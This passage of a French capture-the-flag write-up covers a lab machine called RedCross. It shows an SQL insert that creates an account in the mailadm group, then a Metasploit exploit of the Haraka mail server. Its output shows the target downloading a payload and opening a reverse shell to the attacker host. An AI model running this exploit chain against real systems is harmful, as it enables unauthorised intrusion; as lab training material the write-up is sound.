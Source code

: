 ```plain
devloop@redcross:~$ cat user.txt 
ac899bd-- snip --29bf
```

C'est bien mais ça ne nous donne pas de shell...  

L'utilisatrice a un dossier *haraka* qui nécessite les droits du groupe *mailadm* (gid 1003) pour y accéder. [Haraka](https://github.com/baudehlo/Haraka) est un serveur mail mail basé sur *Node*. Il est surtout vulnérable et une faille permet l'exécution de commande : [il y a un module Metasploit pour ça](https://github.com/rapid7/metasploit-framework/pull/7873/files).  

En revanche il faut pouvoir accéder à la configuration du Haraka pour réaliser l'exécution de commande, ce qui sera notre cas si on obtient le bon gid ;-)   

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop2', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1003, '/home
```

Une fois la configuration de *Haraka* vérifiée via notre nouveau compte SSH on peut utiliser le module Metasploit :  

```plain
msf exploit(linux/smtp/haraka) > show options

Module options (exploit/linux/smtp/haraka):

   Name        Current Setting        Required  Description
   ----        ---------------        --------  -----------
   SRVHOST     10.10.12.13            yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     8080                   yes       The local port to listen on.
   SSL         false                  no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   email_from  devloop@redcross.htb   yes       Address to send from
   email_to    penelope@redcross.htb  yes       Email to send to, must be accepted by the server
   rhost       10.10.10.113           yes       Target server
   rport       1025                   yes       Target server port

Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.12.13      yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   linux x64

msf exploit(linux/smtp/haraka) > exploit

[*] Started reverse TCP handler on 10.10.12.13:9999
[*] Exploiting...
[*] Using URL: http://10.10.12.13:8080/v57N0ltNF62k
[*] Sending mail to target server...
[*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /v57N0ltNF62k
[*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
[*] Sending stage (38 bytes) to 10.10.10.113
[*] Command shell session 2 opened (10.10.12.13:9999 -> 10.10.10.113:59428) at 2019-01-19 16:11:49 +0100
id
```